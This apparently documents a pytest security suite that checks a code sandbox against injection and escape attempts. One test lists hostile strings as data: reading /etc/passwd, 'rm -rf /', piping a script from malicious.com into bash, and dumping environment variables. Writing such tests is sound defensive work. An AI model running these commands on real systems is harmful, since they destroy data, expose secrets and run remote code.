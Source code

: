 
## Security Testing Enhancement

### 1. Advanced Security Test Suite

```python
# tests/security/advanced_security.py
class AdvancedSecurityTests:
    """Comprehensive security testing suite."""
    
    @pytest.mark.security
    @pytest.mark.parametrize("attack_vector", [
        "sql_injection",
        "command_injection", 
        "path_traversal",
        "xss_payload",
        "deserialization",
        "template_injection"
    ])
    def test_attack_vector_resistance(self, attack_vector):
        """Test resistance to various attack vectors."""
        payloads = self.load_attack_payloads(attack_vector)
        
        for payload in payloads:
            with pytest.raises((ValueError, SecurityError, ValidationError)):
                self.execute_security_test(attack_vector, payload)
    
    def load_attack_payloads(self, attack_type: str) -> List[str]:
        """Load attack payloads from security test database."""
        payload_file = Path(f"tests/security/payloads/{attack_type}.json")
        if payload_file.exists():
            return json.loads(payload_file.read_text())
        return []
    
    @pytest.mark.security
    def test_subprocess_sandbox_escape_attempts(self):
        """Test subprocess sandbox escape prevention."""
        escape_attempts = [
            "import os; os.system('cat /etc/passwd')",
            "exec('import subprocess; subprocess.run([\\'rm\\', \\'-rf\\', \\'/\\'])')",
            "__import__('os').system('curl malicious.com/evil.sh | bash')",
            "eval('__import__(\\'os\\').environ')"
        ]
        
        sandbox = CodeSandbox()
        
        for attempt in escape_attempts:
            result = sandbox.execute(attempt)
            
            # Verify sandbox containment
            assert "SecurityError" in str(result.get("error", ""))
            assert result.get("output", "") == ""
            assert result.get("exit_code", 0) != 0
```

